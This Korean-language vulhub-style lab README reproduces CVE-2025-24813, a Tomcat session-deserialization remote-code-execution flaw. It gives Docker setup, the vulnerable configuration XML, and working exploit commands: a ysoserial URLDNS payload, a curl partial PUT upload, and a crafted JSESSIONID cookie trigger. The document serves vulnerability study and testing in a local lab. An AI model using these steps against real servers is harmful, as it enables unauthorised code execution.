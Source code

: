 # Tomcat 세션 역직렬화 원격 코드 실행 (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md) [English version](README.eng.md)

Apache Tomcat은 Java Servlet, JSP, EL, WebSocket 기술을 구현한 세계적으로 널리 사용되는 오픈소스 웹 애플리케이션 서버입니다.

Apache Tomcat에서는 11.0.0-M1에서 11.0.2까지, 10.1.0-M1에서 10.1.34까지, 9.0.0.M1에서 9.0.98까지 역직렬화 취약점이 발견되었습니다. 이는 Tomcat이 쓰기 가능한 DefaultServlet(읽기 전용=false)과 파일 기반 세션 지속성을 모두 갖춘 상태로 구성될 때 발생합니다. 이 조합을 통해 공격자는 서버에 임의의 파일을 작성하고 JSESSIONID 쿠키를 조작하여 이러한 파일의 역직렬화를 트리거하여 궁극적으로 원격 코드 실행으로 이어질 수 있습니다.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## 환경 구성

다음 명령을 실행하여 자바를 설치합니다.


다음 명령을 실행하여 취약한 Tomcat 9.0.97 서버를 시작합니다:

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2025-24813
docker compose up -d
```

컨테이너 실행 확인

```
docker compose ps
```
![image](https://github.com/user-attachments/assets/cf232c15-9e84-4ae6-8ef5-7c5be5b3b6f2)


서버가 시작된 후, 'http://your-ip:8080'을 방문하여 Tomcat 예제 페이지에 접속할 수 있습니다.

## 취약점 구현 방법

취약점은 Tomcat의 두 가지 주요 잘못된 구성으로 인해 발생합니다. 첫째, DefaultServlet은 readonly=false로 구성되어 파일 업로드가 가능합니다:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

둘째, Tomcat은 파일 기반 세션 지속성을 사용하도록 구성되어 있습니다.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

두 구성 모두 동일한 기본 저장 경로를 사용합니다: '$CATALINA_BASE/work/Catalina/localhost/ROOT'.

부분 PUT 요청을 보낼 때 Tomcat은 파일 경로의 경로 구분자(/)를 마침표(.)로 변환하고 파일을 세션 저장 디렉토리에 임시로 저장합니다. 특정 요청을 작성하여 이 디렉토리에 악성 직렬화된 개체를 작성할 수 있습니다.

이 취약점을 악용하려면 악성 파일을 만들어 업로드 하고 역직렬화를 트리거합니다.(저는 테스트 목적으로 ysoserial을 사용합니다):

ysoserial을 사용하여 악성 직렬화 객체를 생성합니다. DNS 요청 검증용 URLDNS 가젯을 예로 들면

```
java -jar ysoserial-all.jar URLDNS "http://your-dns-server.example" > payload.ser
```

![image](https://github.com/user-attachments/assets/95c8a75b-c1a6-4150-be2a-0af884f8ad6c)

다음으로 아래 명령어를 입력해 부분 PUT 요청으로 악성 세션 파일을 업로드합니다.

```
FILESIZE=$(stat -c %s payload.ser)
curl -X PUT "http://localhost:8080/deserialize/session" \
  -H "Content-Range: bytes 0-$(($FILESIZE-1))/$FILESIZE" \
  --data-binary @payload.ser
```
이미 생성되어 있다면 409 conflict 에러가 발생할 것이고 그렇지 않다면 201 Created가 뜰 것입니다.

이후 JSESSIONID 쿠키를 조작하여 역직렬화를 트리거합니다

```
curl -v "http://localhost:8080/" -H "Cookie: JSESSIONID=.deserialize"

```
![image](https://github.com/user-attachments/assets/4cecd594-e0c8-45f5-a2ac-1c48f91b4844)

Tcpdump 명령어를 통해 DNS(53)을 모니터링하면 다음과 같은 결과를 통해 your-dns-server.example이 성공적으로 나타남을 확인할 수 있습니다.

![image](https://github.com/user-attachments/assets/218b03e9-1280-4ddb-b58e-995a62ad06b9)

실제 공격 시나리오에서는 "콘텐츠 역직렬화"가 웹 애플리케이션에 의해 역직렬화될 때 임의의 코드를 실행할 수 있는 악의적인 직렬화된 Java 객체로 대체될 것입니다.
